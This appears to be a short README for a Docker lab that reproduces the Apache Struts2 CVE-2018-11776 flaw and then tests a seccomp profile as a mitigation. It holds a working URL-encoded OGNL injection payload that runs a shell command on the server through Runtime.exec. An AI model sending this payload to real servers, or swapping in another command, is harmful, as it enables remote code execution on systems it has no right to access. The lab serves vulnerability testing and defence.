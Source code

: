 
Container: bhdresh/cve-2018-11776:1.0
Run: sudo docker run -it -p 8080:8080 bhdresh/cve-2018-11776:1.0

Exploit will create vuln file in /tmp:
:8080/struts2-showcase-2.3.14/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27touch /tmp/vulnerable%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/help.action

Use custom seccomp profile and check that exploit does not work
Run: sudo docker run -it --security-opt seccomp=./apache.json -p 8080:8080 bhdresh/cve-2018-11776:1.0
